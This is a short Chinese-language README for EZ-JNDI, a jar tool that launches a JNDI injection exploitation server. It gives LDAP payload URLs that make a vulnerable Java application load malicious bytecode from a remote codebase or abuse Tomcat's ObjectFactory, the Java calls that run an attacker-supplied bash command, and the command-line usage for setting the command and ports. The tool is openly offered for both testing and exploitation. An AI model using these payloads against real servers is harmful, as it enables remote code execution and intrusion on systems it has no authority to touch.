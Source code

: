 # EZ-JNDI
一键启动JNDI测试/利用环境。

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
```
执行命令使用的方式是（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime.exec(new String[]{"/bin/bash", "-c", "{command}"});
New ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

![img.png](img/img.png)

![img.png](img/img2.png)

TODO:
- 直接返回序列化数据
- Windows环境下利用cmd执行命令（`cmd -c {command}`）